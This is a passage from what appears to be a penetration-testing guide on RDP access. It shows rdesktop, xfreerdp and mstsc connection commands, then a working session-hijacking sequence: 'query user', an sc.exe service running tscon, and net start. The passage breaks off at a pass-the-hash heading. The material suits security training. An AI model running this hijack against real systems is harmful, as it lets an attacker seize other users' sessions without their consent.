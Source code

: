 ### Accessing RDP Services

#### Using rdesktop (Linux)

```bash
rdesktop -u administrator -p 'password123' 192.168.2.143
```

#### Using xfreerdp (Linux)

```bash
xfreerdp /u:administrator /p:'password123' /v:192.168.2.143
```

#### Using mstsc (Windows)

On Windows, you can use the built-in Remote Desktop Connection (mstsc.exe):

1. Press Win + R
2. Type `mstsc`
3. Enter the target IP and credentials

### Advanced Attack Techniques

#### RDP Session Hijacking

With local administrator access on a system, you can hijack other users' RDP sessions:

1. First, identify active sessions:

```cmd
query user
```

Example output:

```
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

2. Create a service to execute the hijack using `tscon`:

```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

3. Start the service:

```cmd
net start sessionhijack
```

This technique works by redirecting the target session to your current session, effectively taking it over without needing the user's credentials.

#### RDP Pass-the-Hash (PtH)

On systems with Restricted Admin Mode enabled, you can use NTLM hashes instead of cleartext passwords:
